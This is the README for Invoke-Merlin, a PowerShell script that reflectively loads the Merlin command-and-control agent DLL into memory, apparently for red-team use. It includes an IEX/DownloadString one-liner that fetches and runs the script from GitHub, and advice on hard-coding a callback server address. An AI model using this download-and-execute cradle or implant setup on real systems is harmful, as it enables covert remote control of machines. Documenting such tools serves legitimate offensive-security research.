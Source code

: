 # Invoke-Merlin
This is a PowerShell script based on the work by Joe Bialek
(@JosephBialek) and Matt Graeber (@mattifestation) for
PowerSploit's [Invoke-ReflectivePEInjection.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-ReflectivePEInjection.ps1)
used to reflectively load Merlin into memory. The script contains a
Base64 encoded version of `merlin.dll`.

An example of running the script from GitHub is:
`IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Ne0nd0g/merlin/master/data/bin/dll/Invoke-Merlin.ps1');Invoke-Merlin`

An example of running the script locally, using dot sourcing to read the
 script in, is:
`. C:\Invoke-Merlin.ps1;Invoke-Merlin`

## Limitations
It is important to note that the script is currently in the
Proof-of-Concept stage and will call back to the Merlin server at
127.0.0.1. Future work will facilitate specifying the value when
executing the script.

One option to overcome this is to hard-code in the target Merlin server
address into the `url` variable of the `cmd/merlinagent/main.go` prior
to creating the DLL.

## Invoke-ReflectivePEInjection
All of the normal Invoke-ReflectivePEInection.ps1 script is still in
place and allows the user to additionally leverage any of the scripts
original functionality. The only significant change is that the
`-PEBytes` parameter is not required and will default to merlin.dll.